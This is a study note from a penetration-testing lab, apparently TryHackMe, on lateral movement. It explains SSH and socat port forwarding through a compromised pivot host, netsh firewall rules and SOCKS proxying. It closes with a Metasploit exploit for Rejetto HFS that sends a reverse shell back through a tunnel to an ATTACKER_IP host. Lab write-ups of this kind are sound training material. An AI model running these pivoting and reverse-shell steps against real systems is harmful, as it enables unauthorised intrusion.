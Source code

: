 # Lateral Movement

## Port forwarding

### SSH Tunnelling

```
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```

SSH Tunnelling can be used in different ways to forward ports through an SSH connection, which we'll use depending on the situation. To explain each case, let's assume a scenario where we've gained control over the PC-1 machine (it doesn't need to be administrator access) and would like to use it as a pivot to access a port on another machine to which we can't directly connect. We will start a tunnel from the PC-1 machine, acting as an SSH client, to the Attacker's PC, which will act as an SSH server. The reason to do so is that you'll often find an SSH client on Windows machines, but no SSH server will be available most of the time.
![[Pasted image 20230422173125.png]]

### SSH Remote Port Forwarding

 Let's assume that firewall policies block the attacker's machine from directly accessing port 3389 on the server. If the attacker has previously compromised PC-1 and, in turn, PC-1 has access to port 3389 of the server, it can be used to pivot to port 3389 using remote port forwarding from PC-1. Remote port forwarding allows you to take a reachable port from the SSH client (in this case, PC-1) and project it into a remote SSH server (the attacker's machine).
 
 As a result, a port will be opened in the attacker's machine that can be used to connect back to port 3389 in the server through the SSH tunnel. PC-1 will, in turn, proxy the connection so that the server will see all the traffic as if it was coming from PC-1:

![[Pasted image 20230422173210.png]]

Referring to the previous image, to forward port 3389 on the server back to our attacker's machine, we can use the following command on PC-1:
```  
C:\> ssh tunneluser@1.1.1.1 -R 3389:3.3.3.3:3389 -N
```
`-N` Prevents the client from running a shell.
`-R` Used to request a remote port forward and the syntax requires us to first indicate which port will be opening at the ssh server, followed by the IP and a semicolon to the port we will be forwarding.

Then we can conenct through rdp.
 ```        
exzh@kali$ xfreerdp /v:127.0.0.1 /u:MyUser /p:MyPassword
```

### SSH Local Port Forwarding

Local port forwarding allows us to "pull" a port from an SSH server into the SSH client. In our scenario, this could be used to take any service available in our attacker's machine and make it available through a port on PC-1. That way, any host that can't connect directly to the attacker's PC but can connect to PC-1 will now be able to reach the attacker's services through the pivot host.

**Using this type of port forwarding would allow us to run reverse shells from hosts that normally wouldn't be able to connect back** to us or simply make any service we want available to machines that have no direct connection to us.
![[Pasted image 20230422173508.png]]

```
C:\> ssh tunneluser@1.1.1.1 -L *:80:127.0.0.1:80 -N
```

`-L` Flag is used for local portforwarding. Thgis requires us to indicate the local socket used by PC-1 to receive connctions `*:80` and the remote socket to connect to from the attackers pc perspective (127.0.0.1:80)

Since we are opening a new port on PC-1, we might need to add a firewall rule to allow for incoming connections (with `dir=in`). Administrative privileges are needed for this:

```
netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80
```

Once your tunnel is set up, any user pointing their browsers to PC-1 at http://2.2.2.2:80 and see the website published by the attacker's machine.

### Port Forwarding With socat

**In situations where SSH is not available, socat can be used to perform similar functionality. While not as flexible as SSH, socat allows you to forward ports in a much simpler way**. One of the disadvantages of using socat is that we need to transfer it to the pivot host (PC-1 in our current example), making it more detectable than SSH, but it might be worth a try where no other option is available.

The basic syntax to perform port forwarding using socat is much simpler. If we wanted to open port 1234 on a host and forward any connection we receive there to port 4321 on host 1.1.1.1, you would have the following command:

```
socat TCP4-LISTEN:1234,fork TCP4:1.1.1.1:4321
```

```ad-note
The `fork` option allows socat to fork a new process for each connection received, making it possible to handle multiple connections without closing
```

Note that socat can't forward the connection directly to the attacker's machine as SSH did but will open a port on PC-1 that the attacker's machine can then connect to:
![[Pasted image 20230422174016.png]]
As usual, since a port is being opened on the pivot host, we might need to create a firewall rule to allow any connections to that port:
```
netsh advfirewall firewall add rule name="Open Port 3389" dir=in action=allow protocol=TCP localport=3389
```
If, on the other hand, we'd like to expose port 80 from the attacker's machine so that it is reachable by the server, we only need to adjust the command a bit:
```      
C:\>socat TCP4-LISTEN:80,fork TCP4:1.1.1.1:80
```
![[Pasted image 20230422174130.png]]

### Dynamic Port Forwarding and SOCKS

While single port forwarding works quite well for tasks that require access to specific sockets, there are times when we might need to run scans against many ports of a host, or even many ports across many machines, all through a pivot host. In those cases, dynamic port forwarding allows us to pivot through a host and establish several connections to any IP addresses/ports we want by using a SOCKS proxy.
```
C:\> ssh tunneluser@1.1.1.1 -R 9050 -N   
```
Change Port in `etc/proxychains.conf`
```
[ProxyList]
socks4  127.0.0.1 9050
```
The default port is 9050, but any port will work as long as it matches the one we used when establishing the SSH tunnel.
```
proxychains curl http://pxeboot.za.tryhackme.com
```

## Exploit Tunneling

```
ssh tunneluser@ATTACKER_IP -R 8888:thmdc.za.tryhackme.com:80 -L *:6666:127.0.0.1:6666 -L *:7878:127.0.0.1:7878 -N
```
8888 is the server port that we want to access
6666 is our serverport
7878 is our listening port
```
user@AttackBox$ msfconsole
msf6 > use rejetto_hfs_exec
msf6 exploit(windows/http/rejetto_hfs_exec) > set payload windows/shell_reverse_tcp

msf6 exploit(windows/http/rejetto_hfs_exec) > set lhost thmjmp2.za.tryhackme.com
msf6 exploit(windows/http/rejetto_hfs_exec) > set ReverseListenerBindAddress 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set lport 7878 
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvhost 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvport 6666

msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 8888
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
```

```ad-important
ReverseListenerBindAddress, which can be used to specify the listener's bind address on the attacker's machine separately from the address where the payload will connect back. In our example, we want the reverse shell listener to be bound to 127.0.0.1 on the attacker's machine and the payload to connect back to THMJMP2 (as it will be forwarded to the attacker machine through the SSH tunnel).
```

```ad-important
Our exploit must also run a web server to host and send the final payload back to the victim server. We use SRVHOST to indicate the listening address, which in this case is 127.0.0.1, so that the attacker machine binds the webserver to localhost. While this might be counterintuitive, as no external host would be able to point to the attacker's machine localhost, the SSH tunnel will take care of forwarding any connection received on THMJMP2 at SRVPORT back to the attacker's machine.
```

```ad-important
The RHOSTS is set to point to 127.0.0.1 as the SSH tunnel will forward the requests to THMDC through the SSH tunnel established with THMJMP2. RPORT is set to 8888, as any connection sent to that port on the attacker machine will be forwarded to port 80 on THMDC.
```

